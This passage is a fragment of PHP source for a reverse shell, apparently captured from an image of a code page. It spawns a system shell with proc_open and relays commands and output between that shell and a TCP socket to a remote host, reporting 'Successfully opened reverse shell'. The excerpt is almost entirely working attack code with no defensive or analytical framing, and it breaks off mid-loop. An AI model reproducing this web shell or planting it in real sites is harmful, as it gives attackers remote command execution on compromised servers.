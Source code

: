 ``` PHP
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
```